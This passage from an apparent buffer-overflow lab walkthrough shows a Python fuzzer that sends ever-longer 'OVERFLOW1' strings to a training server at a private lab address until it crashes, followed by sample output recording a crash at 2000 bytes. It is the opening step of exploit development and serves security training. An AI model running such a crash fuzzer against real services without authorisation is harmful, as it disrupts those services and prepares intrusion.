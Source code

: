 ### Fuzzing

Create a file on your Kali box called fuzzer.py with the following contents:

```python
import socket, time, sys

ip = "10.10.17.141"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

```
$ python3 fuzzer.py 
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzing crashed at 2000 bytes
```
